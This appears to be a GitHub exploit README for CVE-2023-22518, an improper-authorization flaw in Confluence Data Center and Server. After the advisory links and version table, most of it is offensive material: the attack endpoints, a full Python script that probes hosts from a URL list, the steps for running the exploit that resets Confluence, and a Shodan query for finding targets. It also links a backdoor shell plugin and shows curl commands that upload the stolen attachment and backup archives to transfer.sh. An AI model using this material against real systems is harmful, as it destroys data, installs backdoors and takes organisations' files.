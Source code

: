 # CVE-2023-22518
Improper Authorization Vulnerability in Confluence Data Center and Server.

Atlassian has alerted administrators about a critical vulnerability in Confluence. Exploiting this issue can lead to data loss, so developers urge you to install patches as soon as possible.

It is noted that the vulnerability cannot be used for data leakage, and it does not affect Atlassian Cloud sites accessed through the atlassian.net domain.

https://confluence.atlassian.com/security/cve-2023-22518-improper-authorization-vulnerability-in-confluence-data-center-and-server-1311473907.html

https://jira.atlassian.com/browse/CONFSERVER-93142

| Product              | Affected Versions                | Fixed Versions           |
|----------------------|---------------------------------|--------------------------|
| Confluence Data Center | All versions are affected      | 7.19.16 or later         |
| Confluence Server      |                                | 8.3.4 or later          |
|                       |                                 | 8.4.4 or later          |
|                       |                                 | 8.5.3 or later          |
|                       |                                 | 8.6.1 or later          |

## Exploiting
Class: Improper authorization

CWE: [CWE-285 / CWE-266](https://cwe.mitre.org/data/definitions/285.html)

ATT&CK: [T1548.002](https://attack.mitre.org/techniques/T1548/002/)

## Known attack vectors 🔥
/json/setup-restore.action

/json/setup-restore-local.action

/json/setup-restore-progress.action

/server-info.action [Community Forum](https://community.atlassian.com/t5/Confluence-questions/Is-CVE-2023-22515-also-exploitable-via-server-info-action/qaq-p/2501129)

## A simple example of vulnerability testing in Python

```
import requests
import random
import string
import argparse
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def random_string(length=10):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(length))

def post_setup_restore(baseurl):
    paths = ["/json/setup-restore.action", "/json/setup-restore-local.action", "/json/setup-restore-progress.action", "/server-info.action"]
    for path in paths:
        url = f"{baseurl.rstrip('/')}{path}"

        headers = {
            "X-Atlassian-Token": "no-check",
            "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryT3yekvo0rGaL9QR7"
        }

        rand_str = random_string()
        data = (
            "------WebKitFormBoundaryT3yekvo0rGaL9QR7\r\n"
            "Content-Disposition: form-data; name=\"buildIndex\"\r\n\r\n"
            "true\r\n"
            "------WebKitFormBoundaryT3yekvo0rGaL9QR7\r\n"
            f"Content-Disposition: form-data; name=\"file\";filename=\"{rand_str}.zip\"\r\n\r\n"
            f"{rand_str}\r\n"
            "------WebKitFormBoundaryT3yekvo0rGaL9QR7\r\n"
            "Content-Disposition: form-data; name=\"edit\"\r\n\r\n"
            "Upload and import\r\n"
            "------WebKitFormBoundaryT3yekvo0rGaL9QR7--\r\n"
        )

        try:
            response = requests.post(url, headers=headers, data=data.encode('utf-8'), timeout=10, verify=False)

            if (response.status_code == 200 and
                'The zip file did not contain an entry' in response.text and 
                'exportDescriptor.properties' in response.text):
                print(f"[+] Vulnerable to CVE-2023-22518 on host {url}!")
            else:
                print(f"[-] Not vulnerable to CVE-2023-22518 for host {url}.")
        except requests.RequestException as e:
            print(f"[*] Error connecting to {url}. Error: {e}")

def main():
    parser = argparse.ArgumentParser(description="Post setup restore script")
    parser.add_argument('--url', help='The URL to target', required=False)
    parser.add_argument('--file', help='Filename containing a list of URLs', required=False)
    args = parser.parse_args()

    if args.url:
        post_setup_restore(args.url)
    elif args.file:
        with open(args.file, 'r') as f:
            for line in f:
                url = line.strip()
                if url:
                    post_setup_restore(url)
    else:
        print("You must provide either --url or --file argument.")

if __name__ == "__main__":
    main()
```

## Use exploit 🔥

[exploit.py](https://github.com/ForceFledgling/CVE-2023-22518/blob/main/exploit.py)
```
python3 exploit.py
Enter the URL: http://REDACTED:8090/json/setup-restore.action?synchronous=true
Enter the path to the .zip file: /path/xmlexport-20231109-060519-1.zip
```

## Bonus 🔥

Shodan search:
```
http.favicon.hash:-305179312
```

[exploit-restore.zip](https://github.com/ForceFledgling/CVE-2023-22518/blob/main/xmlexport-20231109-060519-1.zip)

[Confluence Backdoor Shell App](https://github.com/ForceFledgling/CVE-2023-22518/blob/main/atlplug.jar)

When resetting Confluence using this vulnerability, the directory %CONFLUENCE_HOME%/attachments remains full of files, potentially numbering in the thousands. Extracting them all is quite straightforward, and their extensions can be determined using the Linux file command. For example:
```
file /var/lib/confluence/attachments/v4/191/28/77273124/77273124.1
/var/lib/confluence/attachments/v4/191/28/77273124/77273124.1: PNG image data, 442 x 170, 8-bit/color RGBA, non-interlaced

or

file /var/atlassian/application-data/confluence/attachments/v4/114/128/3506237/3506237.1
/var/atlassian/application-data/confluence/attachments/v4/114/128/3506237/3506237.1: PNG image data, 1250 x 674, 8-bit/color RGBA, non-interlaced
```

Example of how to easily archive a directory and extract the archive:
```
tar -czvf /var/atlassian/application-data/confluence/attachments_backup.tar.gz /var/atlassian/application-data/confluence/attachments
curl --upload-file /var/atlassian/application-data/attachments_backup.tar.gz https://transfer.sh/attachments_backup.tar.gz
https://transfer.sh/***********/attachments_backup.tar.gz

or

curl --upload-file /var/atlassian/application-data/confluence/backups/backup-2023_09_26.zip https://transfer.sh/backup-2023_09_26.zip
https://transfer.sh/***********/backup-2023_09_26.zip
```
[Novel backdoor persists even after critical Confluence vulnerability is patched](https://www.theregister.com/2023/11/14/novel_backdoor_persists_confluence/)

##

[More useful information](https://github.com/ForceFledgling/CVE-2023-22518/blob/main/DETAIL.md)
